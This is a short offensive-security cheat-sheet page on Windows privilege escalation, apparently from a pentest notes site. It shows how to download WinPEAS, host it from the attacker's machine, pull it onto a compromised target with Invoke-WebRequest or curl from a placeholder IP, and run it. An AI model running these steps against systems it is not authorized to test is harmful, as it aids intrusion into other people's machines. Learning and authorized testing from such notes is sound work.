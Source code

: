 ```yaml
---
title: Windows Privilege Escalation
description: Privilege Escalation (PrivEsc) in Windows is a process that get the Administrator credential and login.
tags:
    - Active Directory
    - Privilege Escalation
    - Windows
refs:
date: 2023-03-05
draft: false
---
```


## Automation

**[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)** scans the Local Privilege Escalation vulnerabilities on Windows machine automatically.  

### 1. Download WinPEAS on Your Local Machine

```sh
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220710/winPEAS.bat
```

Start web server to allow the target machine to get the WinPEAS.

```sh
python3 -m http.server 8000
```

### 2. Transfer WinPEAS using PowerShell on the Target Machine

```powershell
cd \Users\<user-name>\Desktop
powershell

Invoke-WebRequest -Uri http://<your-local-ip>:8000/winPEAS.bat -OutFile .\winPEAS.bat
# or
curl http://<your-local-ip>:8000/winPEAS.bat -o .\winPEAS.bat
```

### 3. Execute WinPEAS

```powershell
.\winPEAS.bat
```

<br />

## LOLBAS
